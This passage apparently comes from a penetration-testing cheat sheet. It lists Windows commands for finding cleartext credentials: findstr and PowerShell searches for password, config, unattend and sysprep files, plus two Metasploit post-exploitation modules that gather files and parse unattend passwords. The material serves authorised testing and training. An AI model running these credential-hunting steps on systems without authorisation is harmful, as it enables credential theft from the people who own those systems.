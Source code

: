- Find all passwords in all files

`C:\> findstr /spin "password" *.*`

#### 4.1.2 - Powershell

- Search for Cleartext Passwords

`PS C:\> Get-ChildItem -Recurse -Path C:\ | ? {$_.Name -eq "*.txt" -or $_.Name -eq "*.pdf" -or $_.Name -eq "*.ini"}`

- Find all those strings in config files

```
PS C:\> Get-Childitem -Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue

PS C:\> Get-ChildItem -Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" or $_.Name -like "*.ini")}
```

#### 4.1.3 - Metasploit

- **MSF Windows Gather Generic File Collection Post Module**

```
msf > use post/windows/gather/enum_files

msf post(windows/gather/enum_files) > options

Module options (post/windows/gather/enum_files):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_GLOBS   *.config         yes       The file pattern to search for in a filename
   SEARCH_FROM                   no        Search from a specific location. Ex. C:\
   SESSION                       yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(windows/gather/enum_files) > set file_globs *.txt or *.xml or *.ini

msf post(windows/gather/enum_files) > set search_from <C:\\path\\to\\directory>

msf post(windows/gather/enum_files) > set session <session_id>

msf post(windows/gather/enum_files) > run
```

- **MSF Parser Windows Unattend Passwords Auxiliary Module**

```
msf > use auxiliary/parser/unattend

msf auxiliary(parser/unattend) > options

Module options (auxiliary/parser/unattend):

   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   PATH                        yes       Directory or file to parse. 
   RECURSIVE  false            yes       Recursively check for files

msf auxiliary(parser/unattend) > set path /path/to/file(s)

msf auxiliary(parser/unattend) > set recursive <true | false>

msf auxiliary(parser/unattend) > run
```